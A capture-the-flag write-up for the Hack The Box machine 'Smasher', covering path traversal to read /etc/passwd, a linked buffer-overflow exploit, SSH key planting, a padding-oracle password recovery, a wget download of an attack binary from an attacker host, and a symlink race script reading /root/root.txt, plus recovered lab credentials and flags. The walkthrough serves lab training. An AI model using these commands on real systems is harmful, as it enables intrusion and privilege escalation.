

# [cd ../](../index.md)

---

# Smasher writeup by M4t35Z

Name | Smasher
--- | ---
IP | 10.10.10.89
OS | Linux
Points | Insane(50)

---

# Basic Recon
[nmap(fast)](recon/nmap_fast.txt)  
[nmap()](recon/nmap_big.txt)  
Interesting ports are: `1111`(shenfeng tiny-web-server) and `22`

# Web
Port `1111` is some type of web server so lets check it out!  
We only got a dirlisting and there is only 1 file index.html.  
  
Just go there :D  
  
Its a login page but the button does nothing :/

## More advanced recon on web!
Just open burp, refresh the page, go to http history and look for the response.  
If u got it just open it!  
  
This box runs a `shenfeng tiny-web-server` just search for it on the net!  
The first [link](https://github.com/shenfeng/tiny-web-server) that [ddg](https://duckduckgo.com) gave us is the source on github!  
Source codes are usually juicy stuff :D  
Clone the git repo! And start investigating the source! Btw there is a lil info in the README.md from github!  


Lets try to reach an **lfi**!  
Firstly, I tried on the dirlisting page from my web browser(`http://ip:1111/../../../etc/passwd`) but it didnt work. :(  
Lets try with burp! Just send the req to repeater and put some `../`'s after the `GET` word than the `etc/passwd`!  
  
**WE GOT IT!**

## We have an lfi, whats next?
We know there are 3 users with shell on the box `root`, `www`, and `smasher`!  
If we provide less `../` and no `/etc/passwd` we got dir listing on the server!  
  
*Enum where we are and what we could see!*

### What we know
We are in:  
`/<something>/www/tiny-web-server/` and the something is `/home` for sure cuz user `www` has a shell and a home dir too.  
Btw we could check it with the `../../../../home` GET parameter. And as I said we got `www/`  
  
We could find the system version in `/etc/lsb_release` and `/etc/debian_version` and `/etc/os-release` and `/etc/hostname` :  
  
  
  
  

We could donload the binary too!
```
nc -nv 10.10.10.89 1111 > tiny
```
Now, just make a GET req in nc!
```
GET ../../../../home/www/tiny-web-server/tiny
```
Get rid of the http bullshit from the beginning with vim and then run `file tiny`  
We got its an elf binary.

## Exploiting the binary
U have to do it manually :D
Idk this type of magic :\
Fully working exploit that I grabbed from [snowscan's smasher writeup](https://snowscan.io/htb-writeup-smasher/):  
[tiny_bof.py](expl/tiny_bof.py)  

### Just run it!
  
WE ARE IN as user `www`!!  
Now we need a normal shell so just paste our publickey to `~/.ssh/authorized_keys`!  
First, generate one:
```
ssh-keygen -t rsa -b 4096
```
Now just copy to the victim!  
  

# SSH
```
ssh -i ~/.ssh/id_rsa www@10.10.10.89
```
And we are in with ssh(a much handy shell to work with)!  


## Privesc
Just download [`linpeas.sh`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to the box!  
Run it!

- There is an *interesting* cron job(but it's commented out :/)!  
  
- Port **1337** listening on **localhost**
  

  ```
  nc 127.0.0.1 1337
  ```

  And we got an **AES hash**:  
    
  ```
  irRmWB7oJSMbtBC4QuoB13DC08NI06MbcWEOc94q0OXPbfgRm+l9xHkPQ7r7NdFjo6hSo6togqLYITGGpPsXdg==
  ```

### Oracle padding
I will use [this script](https://gitlab.com/epi052/htb-scripts-for-retired-boxes/-/blob/master/smasher/smasher-padding-oracle.py) to get smasher's pw with a padding oracle attack.  
It uses the `paddingoracle` python lib so install it with pip!  
```
pip install paddingoracle --user
```

We also have to tunnel the **1337 port**!
```
ssh -L 1337:localhost:1337 -i ~/.ssh/id_rsa www@10.10.10.89
```

Now, just run the script like a 1337 H4x0r!  


```
python expl/padding_oracle.py -b 16 'irRmWB7oJSMbtBC4QuoB13DC08NI06MbcWEOc94q0OXPbfgRm+l9xHkPQ7r7NdFjo6hSo6togqLYITGGpPsXdg==' 127.0.0.1 -p 1337
```

Get a coffe, stand up do anything u can do while it's cracking the hash!  
  
  
  

Finally, we got it (start: 16:56, end: 17:12 (after ~16 min))  
```
smasher:PaddingOracleMaster123
```

SSH in as **smasher** with the pw we got!  


```
baabc5e4ed55bcc176a2ed5d49b4befb
```

## Privesc to `root`
Run `linpeas` again!  
  
This is a more interesting cronjob! It runs `~/socat.sh` every minute (I think)

**~/socat.sh**:
```
#!/usr/bin/env bash
while true; do socat TCP-LISTEN:1337,reuseaddr,fork,bind=127.0.0.1 EXEC:"/usr/bin/python /home/smasher/crackme.py" 2>&1 > /dev/null; done
```

But the big problem is that we do not have permission to write into these files :(  

Search for more weird stuff!  
Check for suid bins inside a bin dir on the system!
```
find / -perm /6000 2>/dev/null | grep 'bin'
```
There a weird suid binary `/usr/bin/checker`  
Try to run it! It needs a file to check so create one with some random string in it!  
  

If u run the binary u can feel there is a ~**second delay** so maybe we can trigger a **race condition**!  

### Racing
[liveoverflow's vid about race conditions](https://www.youtube.com/watch?v=5g137gsB9Wk)  
[my racing source](expl/racing.c)  

Compile it, send it to the box and run it!
```
mkdir /tmp/.ayy
cd /tmp/.ayy
wget <attacker-ip>/racing
ln -s /root/root.txt /tmp/.ayy/flag
touch dummy
```
Now, u can do an `ls -lah` and u must see these:  


```
./racing /tmp/.ayy/flag /tmp/.ayy/dummy
```
And open a new ssh and try to use checker on `/tmp/.ayy/flag`!  

--> It's not working :(

### The simple way
Go back and do it more simple cuz we have 1 sec!  
We just need fast fingers and 2 terminal window!  


Make it work:
1. Run checker
2. Fastly change to the other window
3. Link the rootflag to a file

If u are fast enough u will get the flag :D  


```
077af1365ed28ef0cc56dc31065c09bf
```

U can also do it with a script:
```
#!/bin/sh

rm /tmp/.ayy/flag
touch /tmp/.ayy/flag
/usr/bin/checker /tmp/.ayy/flag &
sleep 0.5
ln -sf /root/root.txt /tmp/.ayy/flag
```


---

If u like my page u can always donate to my paypal [paypal.me/M4t35Z](https://paypal.me/M4t35Z)
